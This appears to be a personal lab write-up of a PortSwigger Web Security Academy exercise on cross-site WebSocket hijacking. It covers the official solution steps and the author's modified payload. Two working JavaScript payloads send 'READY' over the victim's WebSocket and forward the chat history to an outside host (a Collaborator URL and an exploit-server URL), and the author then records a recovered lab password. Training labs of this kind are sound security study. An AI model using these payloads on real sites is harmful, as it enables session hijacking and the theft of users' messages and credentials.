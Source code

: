 his online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

#### Note

>To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

---

**Goal:** Exploit the live chat feature that is using WebSockets. Use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

**Analysis:** The live chat remembers the conversation, which means it must be setting a session cookie, and the same site is set to `none`, so the session cookie will be sent in a cross site request. 

Vulnerabilities:
1. Session cookie: `SameSite=None`
2. /chat endpoint is vulnerable to CSRF
3. WebSocket replies with entire chat history on **READY** Message

![[Pasted image 20240830081004.png]]

**Solution (Burp Pro):** 

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In the browser, go to the exploit server and paste the following template into the "Body" section:

```js
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
  
7. Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by Burp Collaborator.
8. Click "View exploit".
9. Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions in the Collaborator tab again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

---

I Can modify the script so that it will send the messages back to the exploit server instead of burp pro's collaborator.

```js
<script>
    var ws = new WebSocket('wss://0a7100a603187082802d5d4b000e004a.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };

    ws.onmessage = function(event) {
        fetch('https://exploit-0a2e004003eb700180b15c51013000c6.exploit-server.net/exploit?comment=' + event.data);
    }
</script>
```

- I'll store the script first to save it, and then use the deliver button to send it to the fake user which mimics an email phishing attack.
- This should return the b64 encoded log message of the live chat. Note all of them down for decoding. 

![[Pasted image 20240830084156.png]]

I can use the built in decoder in burpsuite to read the live chat which gives me the password for Carlos's account:

![[Pasted image 20240830084055.png]]

**Carlos:** no2stcj0juf4axjayy45

---

**Completed:** _08:44 2024-08-30_

